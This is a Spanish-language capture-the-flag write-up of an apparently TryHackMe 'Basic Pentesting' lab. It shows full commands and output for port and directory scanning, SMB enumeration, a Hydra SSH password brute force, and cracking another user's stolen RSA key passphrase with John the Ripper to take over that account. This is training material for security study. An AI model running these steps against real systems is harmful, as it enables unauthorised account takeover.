 ```yaml
---
title: 01. Basic Pentesting
daft: "false"
tags:
  - THM
  - EASY
cssclasses:
  - hbox
---
```

---
Created by: [@raf181_](https://github.com/raf181)  | Date: `18-11-2024`

---

Comenzamos realizando un escaneo general de la red. Para esto, ejecutamos un escaneo con **[nmap](https://www.kali.org/tools/nmap/)** utilizando la dirección IP proporcionada. Usamos el parámetro `-sV` para obtener información de las versiones y el parámetro `-sC` para información de scripts. Para acelerar el escaneo, también incluimos el parámetro `-T4`. Los resultados del escaneo se detallan a continuación.  

> [!abstract]- Como Instalar
> Instalar `Nmap`:
> ```bash
> sudo apt install nmap

```Bash
nmap -sV -sC -T4 $ip
```

> [!example]- Output
> ```Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-18 01:25 CET
> Stats: 0:01:03 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
> Service scan Timing: About 66.67% done; ETC: 01:27 (0:00:29 remaining)
> Nmap scan report for 10.10.63.0
> Host is up (0.13s latency).
> Not shown: 994 closed tcp ports (conn-refused)
> PORT     STATE SERVICE     VERSION
> 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
> | ssh-hostkey:
> |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
> |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
> |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
> 80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
> |_http-title: Site doesn't have a title (text/html).
> |_http-server-header: Apache/2.4.18 (Ubuntu)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
> 8009/tcp open  ajp13?
> |_ajp-methods: Failed to get a valid response for the OPTION request
> 8080/tcp open  http-proxy
> |_http-title: Apache Tomcat/9.0.7
> |_http-favicon: Apache Tomcat
> Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
>
> Host script results:
> |_clock-skew: mean: 1h40m14s, deviation: 2h53m13s, median: 14s
> | smb2-time:
> |   date: 2024-11-18T00:28:42
> |_  start_date: N/A
> | smb-security-mode:
> |   account_used: guest
> |   authentication_level: user
> |   challenge_response: supported
> |_  message_signing: disabled (dangerous, but default)
> | smb2-security-mode:
> |   3:1:1:
> |_    Message signing enabled but not required
> | smb-os-discovery:
> |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
> |   Computer name: basic2
> |   NetBIOS computer name: BASIC2\x00
> |   Domain name: \x00
> |   FQDN: basic2
> |_  System time: 2024-11-17T19:28:42-05:00
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
> Nmap done: 1 IP address (1 host up) scanned in 188.95 seconds```

De los resultados del escaneo, podemos observar que los puertos `22 (SSH)`, `80 (HTTP)` y los puertos `139–445 (SMB)` están abiertos. Al ingresar la dirección IP relevante en el navegador, no encontramos mucha información en la página web. Para recolectar más información, utilizamos una herramienta llamada **[gobuster](https://www.kali.org/tools/gobuster/)**. Con **[gobuster](https://www.kali.org/tools/gobuster/)**, podemos descubrir directorios dentro de la página web.  
> [!abstract]- Como Instalar
> Instalar `Gobuster`:
> ```bash
> sudo apt install gobuster
>```
> Descarga *`common directory list`* de v0re
> ```Bash
> wget https://raw.githubusercontent.com/v0re/dirb/refs/heads/master/wordlists/common.txt
> ```

```Bash
gobuster dir -u http://$ip/ -w /usr/share/wordlist/dirb/common.txt
```

> [!example]- Output
> ```
> ===============================================================
> Gobuster v3.6
> by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
> ===============================================================
> [+] Url:                     http://10.10.63.0/
> [+] Method:                  GET
> [+] Threads:                 10
> [+] Wordlist:                common.txt
> [+] Negative Status codes:   404
> [+] User Agent:              gobuster/3.6
> [+] Timeout:                 10s
> ===============================================================
> Starting gobuster in directory enumeration mode
> ===============================================================
> /.hta                 (Status: 403) [Size: 289]
> /.htaccess            (Status: 403) [Size: 294]
> /.htpasswd            (Status: 403) [Size: 294]
> /development          (Status: 301) [Size: 314] [--> http://10.10.63.0/development/]
> /index.html           (Status: 200) [Size: 158]
> /server-status        (Status: 403) [Size: 298]
> Progress: 4614 / 4615 (99.98%)
> ===============================================================
> Finished
> ===============================================================
> ```

A partir de los resultados del escaneo, descubrimos un directorio llamado `development`. Al visitar esta página, encontramos dos archivos llamados `dev.txt` y `j.txt`.  

![](99.%20Inserts/Pasted%20image%2020241118020931.png)

En el archivo `dev.txt`, vemos conversaciones entre `-J` y `-K`. De esto entendemos que están utilizando la versión `
`Apache version 2.5.12` en el sitio web.  

En el archivo `j.txt`, leemos que la contraseña de `-J` es débil. Esto nos da una pista para continuar.  

Para recopilar más información detallada del sistema SMB, utilizamos la herramienta **[enum4linux](https://www.kali.org/tools/enum4linux/)**. **[Enum4linux](https://www.kali.org/tools/enum4linux/)** es una herramienta diseñada para obtener información sobre sistemas SMB y Windows.  
> [!abstract]- Como Instalar
> Instalar `enum4linux`:
>```Bash
>sudo apt install enum4linux
>```


```Bash
enum4linux $ip
```

> [!example]- Output
> Important Output
> ![](99.%20Inserts/Pasted%20image%2020241118022657.png)
> ![](99.%20Inserts/Pasted%20image%2020241118022708.png)


Podemos observar en los resultados que los usuarios `-J` y `-K` son realmente Jan y Kay. Habíamos aprendido que la contraseña de Jan es débil. Para descifrar la contraseña, usaremos una herramienta llamada **[Hydra](https://www.kali.org/tools/hydra/)**. **[Hydra](https://www.kali.org/tools/hydra/)** es una herramienta ampliamente utilizada para descifrar contraseñas en sistemas de red.  

A partir de los resultados de Nmap, encontramos que el puerto SSH está abierto. Usando la herramienta **[Hydra](https://www.kali.org/tools/hydra/)**, intentaremos establecer una conexión a través del puerto SSH descifrando la contraseña.  
> [!abstract]- Como Instalar
> Instalar `wordlist`+`Hydra`:
>```Bash
>sudo apt install wordlists
>sudo apt install hydra
>```

```Bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$ip -t 4
```

> [!example]- Output
> ```Bash
> Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service > organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
> 
> Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-18 15:46:59
> [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session > found, to prevent overwriting, ./hydra.restore
> [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
> [DATA] attacking ssh://10.10.153.67:22/
> [STATUS] 24.00 tries/min, 24 tries in 00:01h, 14344375 to do in 9961:23h, 4 active
> [STATUS] 21.00 tries/min, 63 tries in 00:03h, 14344336 to do in 11384:24h, 4 active
> [STATUS] 24.14 tries/min, 169 tries in 00:07h, 14344230 to do in 9902:20h, 4 active
> [STATUS] 26.13 tries/min, 392 tries in 00:15h, 14344007 to do in 9147:58h, 4 active
> [22][ssh] host: 10.10.153.67   login: jan   password: ######
> 1 of 1 target successfully completed, 1 valid password found
> Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-18 16:16:28
> ```

Como resultado del uso de Hydra, obtenemos la contraseña de Jan. Con esta contraseña, establecemos una conexión SSH.  

```Bash
ssh jan@$ip -p 22
```
### Escalación de privilegios  
Hemos iniciado sesión exitosamente como Jan. Tras explorar el sistema, encontramos que la bandera que buscamos está en el directorio del usuario Kay. Por lo tanto, necesitamos cambiar al usuario Kay. Para esto, debemos escalar privilegios. Podemos acceder a la clave RSA de Kay, la cual utilizaremos para escalar privilegios.  
![](99.%20Inserts/Pasted%20image%2020241118172757.png)
![](99.%20Inserts/Pasted%20image%2020241118172746.png)
Con la clave RSA, podemos acceder directamente a la cuenta de Kay a través de una conexión SSH sin ingresar una contraseña. Guardamos la clave RSA de Kay en un archivo llamado `a.txt` en nuestro terminal. Al intentar conectar con la cuenta de Kay usando la clave RSA, notamos que la clave RSA también está protegida con una frase de paso. Primero, necesitamos descifrar esta frase de paso. Para este propósito, podemos usar la herramienta **[ssh2john](https://www.kali.org/tools/john/#ssh2john)** de **[John the Ripper](https://www.kali.org/tools/john/#john)**.  

**[John the Ripper](https://www.kali.org/tools/john/#john)** es una herramienta comúnmente usada para descifrar contraseñas en sistemas basados en Unix. Inicialmente, la clave RSA, junto con **[ssh2john](https://www.kali.org/tools/john/#ssh2john)**, será transformada a un formato que **[John the Ripper](https://www.kali.org/tools/john/#john)** pueda descifrar. Guardamos la salida en un archivo de texto llamado `decrypted1.txt`. Luego, instruimos a **[John the Ripper](https://www.kali.org/tools/john/#john)** a intentar descifrar la frase de paso proporcionando el archivo de palabras comúnmente usado `rockyou.txt`.  

```Bash
ssh2john a.txt > decrypted1.txt
john --wordlist=/usr/share/wordlist/rockyou.txt decrypted1.txt
```

> [!example]- Output
> ![](99.%20Inserts/Pasted%20image%2020241118172928.png)

Después de una breve espera, podemos ver que la frase de paso ha sido descifrada. A continuación, escribimos el comando necesario, como se muestra, para establecer la conexión SSH desde el usuario Jan al usuario Kay. También proporcionamos la información de la frase de paso obtenida con la herramienta **[John the Ripper](https://www.kali.org/tools/john/#john)**, ¡y listo! Iniciamos sesión como el usuario Kay. Encontramos nuestra bandera dentro del archivo `pass.bak`.  
```Bash
ssh -i /home/kay/.ssh/id_rsa kay@$ip -p 22
ls
cat pass.bak
################################################
```
